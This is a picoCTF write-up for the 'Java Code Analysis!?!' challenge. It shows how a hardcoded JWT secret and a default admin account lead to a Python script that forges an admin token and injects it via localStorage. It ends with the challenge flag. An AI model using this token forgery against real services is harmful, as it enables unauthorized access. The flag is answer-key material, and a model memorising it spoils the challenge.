






## Java Code Analysis!?!



We are given a webpage with a book listing. Our goal is to read the Flag book being displayed.  



However, attempting to read the Flag book spawns a notification that we do not have access.  



Going into the website documentation, `README.md` mentions that the website uses JWT tokens for authentication. Our current JWT token probably doesn't have the necessary privileges.  



In `src/main/java/io/github/nandandesai/pico/security/SecretGenerator.java`, we find the hardcoded secret used to sign all JWT tokens. Now we just need to get a sample token to modify with admin privileges.  


The JWT token doesn't show up in the browser cookies, so the next best place we can search is `localStorage`. True enough, we find the JWT token along with the token payload.  



In `src/bookshelf-pico/src/main/java/io/github/nandandesai/pico/configs/BookShelfConfig.java`, we find that the server initialises an admin user by default. We just have have to copy over the credentials into our token payload.  

Note that `userId` needs to be set to `2` since `freeUser` is initialised before `admin`.  



We can use Python to generate JavaScript code that will replace the current JWT token with our own admin token.  

```python
import jwt
import json

payload = {"role":"Admin","iss":"bookshelf","exp":1765417616,"iat":1764812816,"userId":2,"email":"admin"}

token = jwt.encode(
    payload=payload,
    key="1234",
    algorithm="HS256",
    headers={"typ": "JWT", "alg": "HS256"}
)

print(f"""
localStorage['token-payload'] = '{json.dumps(payload)}';
localStorage['auth-token'] = '{token}'
""".strip())
```

Changing the token will then allow us to read the Flag book.  


Flag: `picoCTF{w34k_jwt_n0t_g00d_42f5774a}`